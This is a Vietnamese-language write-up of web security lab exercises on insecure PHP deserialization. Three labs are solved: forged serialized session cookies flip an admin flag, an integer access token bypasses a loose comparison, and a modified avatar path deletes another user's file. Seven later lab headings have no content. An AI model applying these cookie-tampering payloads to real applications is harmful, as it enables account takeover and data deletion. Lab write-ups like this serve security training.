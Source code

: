 # 1. Modifying serialized objects

Đăng nhập với credentials wiener:peter, thấy session cookie có giá trị 

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d
```
Thực hiện base64 decode thì ta được 

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
``` 
chính là object User với hai thuộc tính "username" và "admin" được serialize bởi PHP.

Sửa thành 

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
```
rồi thực hiện base64 encode, thay thế giá trị cookie hiện tại. Sau khi refresh, link dẫn đến Admin panel xuất hiện.

Vào admin panel và xóa user carlos, kết quả thành công.

# 2. Modifying serialized data types

Đăng nhập với credentials wiener:peter, thấy session cookie có giá trị:

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJiNThuaDhwNWo4Z3czM3k2eXF2ZXB6c2k3eWRqd280NSI7fQ%3d%3d
```
Thực hiện base64 decode thì ta được 
```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"b58nh8p5j8gw33y6yqvepzsi7ydjwo45";}
```
Như vậy nếu access token và username đúng thì ta sẽ truy cập được vào tài khoản.

Website sử dụng hàm serialize() của PHP, như vậy ta có thể thay đổi data type của access token thành int, và nếu website không convert access token thành kiểu string, đồng thời trong access token của administrator không có chữ số, và website so sánh access token bằng loose comparision thì ta có thể bypass.

Cấu hình một serialized object mới với `username=administrator` và `access_token=0` (kiểu integer):
```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```
Thực hiện base64 encode và thay thế cookie hiện tại, kết quả truy cập thành công. Vào admin panel và xóa user carlos, bài lab được giải.

# 3. Using application functionality to exploit insecure deserialization
Đăng nhập với credentials wiener:peter, thực hiện base64 decode session cookie ta được:

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"q1eh79na8deste009sniaq0ytxnirwh5";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```
Dự đoán khi thực hiện chức năng Delete Account, ứng dụng sẽ xóa cả ảnh avatar sử dụng thuộc tính "avatar_link" trong object "User" (session cookie sau khi được serialized). Như vậy thay đổi thành `"avatar_link";s:23:"/home/carlos/morale.txt"`, sau đó click "Delete Account". Kết quả, bài lab được giải thành công.

# 4. Arbitrary object injection in PHP

# 5. Exploiting Java deserialization with Apache Commons

# 6. Exploiting PHP deserialization with a pre-built gadget chain

# 7. Exploiting Ruby deserialization using a documented gadget chain

# 8. Developing a custom gadget chain for Java deserialization

# 9. Developing a custom gadget chain for PHP deserialization

# 10. Using PHAR deserialization to deploy a custom gadget chain
